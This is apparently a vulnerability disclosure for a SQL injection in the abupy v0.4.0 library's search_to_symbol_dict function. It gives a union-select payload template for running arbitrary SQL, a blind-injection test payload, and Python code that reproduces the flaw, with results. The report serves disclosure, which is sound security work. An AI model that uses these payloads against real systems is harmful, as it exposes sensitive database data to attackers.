 Vulnerability Product: abupy v0.4.0  
Vulnerability version: v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when {code you wanna execute} then 'usJASNW' else 'usTROVW' end where ''='"```  
Test_payload: ```"us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"```  
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='")```  

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument(abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the comments of the function, It is legal and normal for users to call this function)
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"))
```

Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is`{'TROVW': 'TROVAGENE INC'}`

proved sql code execution

## [](#header-3)HARM: 

Programmers may mistakenly use the functions in this library as part of the backend of the web application, allowing attackers to call the functions and return sensitive database data.  

The above payload is just an example, attackers can construct payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug
